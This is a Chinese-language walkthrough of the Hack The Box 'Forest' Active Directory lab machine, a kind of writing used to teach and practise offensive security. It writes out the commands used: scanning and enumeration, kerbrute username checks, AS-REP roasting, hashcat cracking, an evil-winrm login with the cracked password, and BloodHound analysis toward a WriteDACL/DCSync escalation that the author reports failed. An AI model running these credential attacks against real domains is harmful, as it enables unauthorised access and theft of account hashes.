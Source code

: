 ```yaml
---
description: Easy / 枚举 / AS-REP Roasting /滥用 WriteDACL / DCSync / Bloodhound
---
```


# ✔️ Forest

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA forest 10.129.154.107 --open
```

<figure><img src="../../.gitbook/assets/1 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (7).png" alt=""><figcaption></figcaption></figure>

* 把IP地址和域名写入/etc/hosts文件：

<figure><img src="../../.gitbook/assets/3 (4).png" alt=""><figcaption></figcaption></figure>

* 通过之前的Nmap扫描结果发现并没有Web应用的相关开放端口，所以直接尝试各种匿名登录，SMB可以登录成功但是无收获，RPC不可以无密码登录：

```bash
smbclient -N -L 10.129.154.107
rpcclient 10.129.154.107
```

* 使用enum4linux对目标进行枚举，发现了目标系统上的用户名及其用户信息、密码策略、域组成员信息：

```bash
enum4linux 10.129.154.107
```

<figure><img src="../../.gitbook/assets/4 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (4).png" alt=""><figcaption></figcaption></figure>

* 将这些用户名收集起来，试试哪些是域内有效的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/7 (6).png" alt=""><figcaption></figcaption></figure>

* 31个用户名跑出来18个有效，再把这18个用户名汇总成一个users.txt文件：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/10 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (6).png" alt=""><figcaption></figcaption></figure>

* 使用Impacket的脚本GetNPUsers.py尝试获取每个用户的哈希值：

```bash
./GetNPUsers.py 'htb.local/' -usersfile users.txt -format hashcat -outputfile hashes.txt -dc-ip 10.129.154.107
```

<figure><img src="../../.gitbook/assets/13 (21).png" alt=""><figcaption></figcaption></figure>

* 已找到了用户svc-alfresco 帐户的哈希值，将该哈希值保存为hashes.txt文件，然后查找该哈希对应的模式，hashcat暴力破解其明文密码：

```bash
hashcat -m 18200 hashes.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/14 (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (6).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 至此，以获取到一个有效凭证：<mark style="color:red;">**svc-alfresco:s3rvice**</mark>
* 利用这个有效凭证和evil-winrm，尝试get shell：

```bash
evil-winrm -i htb.local -u svc-alfresco -p 's3rvice' 
```

* 成功登录，并找到了第一个flag：

<figure><img src="../../.gitbook/assets/17 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (18).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 按惯例上传winPEAS进行信息枚举，但是没有什么特别的收获：

```bash
# evil-winrm:
upload /root/Documents/HTB-AD/forest/tools/winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/19 (5).png" alt=""><figcaption></figcaption></figure>

* 上传sharphound进行信息收集，放入bloodhound中分析各个用户、组成员等之间的关系：

<figure><img src="../../.gitbook/assets/20 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/22 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (3).png" alt=""><figcaption></figcaption></figure>

* 当前已控制的账户是svc-alfresco，查看最短到域管的路径发现，当前账户属于Service Accounts的成员，而Service Accounts又属于Privileged IT Accounts的成员，Privileged IT Accounts是Account Operators的成员，最后Account Operators的成员又是属于Exchange Windows Permissions的成员：

<figure><img src="../../.gitbook/assets/24 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 从bloodhound列举出的信息中可知Exchange Windows Permission在当前域中是有WriteDACL权限的，该权限可以允许用户修改对象的访问控制列表，这意味着拥有这个权限的账户可以自己赋予自己/其他账户DCSync同步权限。

{% hint style="info" %}
本例提权过程中，一种方式是赋予当前以控制的账户svc-alfrescoDCSync同步权限，还有一种是创建一个新的用户账户赋予它DCSync同步权限，已确定成功将相关账户加入到了Exchange Windows Permissions组，但是在用secretsdump提取域内用户账户的哈希密码时，两种均失败，暂不清楚原因。
{% endhint %}

*

{% hint style="info" %}
本例机器，在GET SHELL阶段常规的枚举尝试就有收获。提权过程太艰难了，以为是自己方向搞错了，看了网上提示后发现没有错，各种方式都尝试过了，还是一直报错，暂不清楚原因，后续再更新。本例Bloodhound分析过程没有以前的机器简单。

（本例中途重置过IP地址有变化，不影响其过程实现）
{% endhint %}
